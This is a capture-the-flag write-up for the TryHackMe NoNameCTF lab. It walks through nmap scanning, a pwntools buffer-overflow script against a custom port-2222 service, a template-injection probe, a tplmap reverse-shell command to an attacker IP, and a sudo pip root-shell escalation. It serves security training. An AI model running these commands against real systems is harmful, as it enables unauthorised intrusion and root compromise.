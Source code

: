 # THM NoNameCTF Writeup
## Enumeration
```
nmap -sCV -oN nmap/NoNameCTF <ip>
```
### Result
```
Nmap scan report for 10.10.107.235
Host is up (0.36s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:57:3f:cc:86:39:04:3b:f0:e6:46:bf:72:51:64:0b (RSA)
|   256 81:05:75:ad:78:83:62:b2:06:41:5b:e5:a5:a9:82:4d (ECDSA)
|_  256 0f:8d:0e:19:e9:c7:cc:14:39:e9:34:60:5c:f7:aa:fe (ED25519)
80/tcp    open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
146/tcp   filtered iso-tp0
2222/tcp  open     EtherNetIP-1?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, NULL, RPCCheck, SSLSessionReq: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|   GetRequest, HTTPOptions, Help, RTSPRequest: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|     Wrong option
|_    Good bye
6666/tcp  filtered irc
8652/tcp  filtered unknown
9090/tcp  open     http          Tornado httpd 6.0.3
|_http-title: Site doesn't have a title (text/plain).
|_http-server-header: TornadoServer/6.0.3
49175/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2222-TCP:V=7.92%I=7%D=11/8%Time=618932E7%P=x86_64-pc-linux-gnu%r(NU
SF:LL,7B,"Welcome\x20to\x20the\x20NoNameCTF!\r\nChoose\x20an\x20action:\r\
<SNIP>
\n>\x20login:\x202\r\n>\x20get_secret_directory:\x203\r\n>\x20store
SF:_your_buffer:\x204\r\n");

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We got 4 open ports, 22,80,2222,9090. Let's take a look at it one by one. First, nothing special about port 22. Next, port 80 is running website, must be there for a reason. Third, Port 2222 looks like running a unknown service, leave it first. Last, port 9090 running website using Tornado with version 6.0.3.

### Port 80
Looking at port 80 website's source code, we found a potential hint. Looks like hinting about buffer overflow. 
![3f64f75b1b6315cc94044f566a13328e.png](_resources/3f64f75b1b6315cc94044f566a13328e.png)

### Port 2222
Looking at port 2222, we can try connect to it via netcat:
```
nc <ip> 2222
```
Looks like it is providing some services. The **get_secret_directory** looks interesting but it was prompting us to login before using that service. We will come back to this later.

![c54ca29dcc6d143e6046d2661b512fe7.png](_resources/c54ca29dcc6d143e6046d2661b512fe7.png)

### Port 9090
Upon browsing to port 9090 website, we've encountered an error.

![6667948cfd36e9a2914a933b392fe3b9.png](_resources/6667948cfd36e9a2914a933b392fe3b9.png)

For now we have gathered some initial information about each open ports. Let's do a quick summarize, port 80 source code indicating we might need to do buffer overflow, since buffer overflow less likely will be happen in websites, let's now focus on port 2222.

### Exploiting port 2222
Based on the port 80 source code hint given, we can guess that vulnerable point was **store_your_buffer** functionality and the amount of buffer to overflow it most likely will be greater than 1000. After interacting a while with it, the flow to exploit it to get secret directory probably is:
```
Register an account -> Login -> Buffer Overflow on store_your_buffer -> get_secret_directory
```

I have wrote a script to automate this process:

```
#!/usr/bin/env python3

from pwn import *
import argparse
import pdb

parser = argparse.ArgumentParser(description="BOF Exploit")
parser.add_argument("host", help="The host IP address")
parser.add_argument("port", help="The host port")
args=parser.parse_args()

# Connection
target = remote(args.host, args.port)

# Registration
print("[+] Default hardcoded credential: anonymous:anonymous123")
print("[+] Registering using default hardcoded credential")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'1')
target.recvuntil(b'Enter an username:')
target.sendline(b'anonymous')
target.recvuntil(b'Enter a password:')
target.sendline(b'anonymous123')

# Login
print("[+] Loging using registered credential")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'2')
target.recvuntil(b'Username:')
target.sendline(b'anonymous')
target.recvuntil(b'Password:')
target.sendline(b'anonymous123')

# BOF
print("[+] Buffer Overflowing 'store_your_buffer' functionality")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'4')
target.recvuntil(b'Enter your buffer:')
buffer = b"A"*1500
target.sendline(buffer)

# Get secret
print("[+] Getting secret directory")
target.recvuntil(b'store_your_buffer: 4\r\n')
target.sendline(b'3')
print("[*] Success !!!\n")
print(target.recvline().decode("utf-8"))
```

Basically the script follows the flow i mentioned above and overflow the vulnerable functionality with 1500 bytes. We just need to supply the machine IP and port to execute this exploit.

```
$ python exploit.py 10.10.107.235 2222
[+] Opening connection to 10.10.107.235 on port 2222: Done
[+] Default hardcoded credential: anonymous:anonymous123
[+] Registering using default hardcoded credential
[+] Loging using registered credential
[+] Buffer Overflowing 'store_your_buffer' functionality
[+] Getting secret directory
[*] Success !!!

My secret in the port 9090 is: /xxxxx

[*] Closed connection to 10.10.107.235 port 2222
```

Yay ! Now we got the secret directory.
***
## Initial Foothold
Let's browse to port 9090 website with the secret directory:

![6ede18c18e56f998156807e30828299c.png](_resources/6ede18c18e56f998156807e30828299c.png)

Nothing interesting, how about the source code?
![32599adf76a4a76c570d55a65701de96.png](_resources/32599adf76a4a76c570d55a65701de96.png)

Yes ! We got a parameter hidden in source code. After some testing, looks like it was vulnerable to Server Side Template Injection (SSTI):
```
http://10.10.107.235:9090/xxxxx/?hackme={{7*7}}
```
![b0ddea2d264559572693e4cc6587e728.png](_resources/b0ddea2d264559572693e4cc6587e728.png)

Without further ado, let's spawn a reverse shell using **tplmap**:
#### Notes: If you have problem installing tplmap, take this: [solution](https://blog.csdn.net/weixin_46041615/article/details/121111050), you're welcome
```
python2 tplmap.py -u http://10.10.107.235:9090/xxxxx/?hackme= --reverse-shell 10.13.28.126 4567
```

Setup netcat to listen on certain port:
```
nc -lvnp 4567
```

Execute the tplmap's command and BOOM ! Reverse shell achieved !
![ac8ecc09a421a28a018da587f359cb13.png](_resources/ac8ecc09a421a28a018da587f359cb13.png)
***
## Privilege Escalation
> Classic <3 - GTFOBins
```
sudo -l
```
![abacfee0f5d6a41063588edd829a7efb.png](_resources/abacfee0f5d6a41063588edd829a7efb.png)

### Exploit 
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo /usr/bin/pip install $TF
```

### Rooted !
![1ca5eba662366c1f2fcc22fbe8148980.png](_resources/1ca5eba662366c1f2fcc22fbe8148980.png)


To whoever reading this till here, thank you so much and have a nice day !
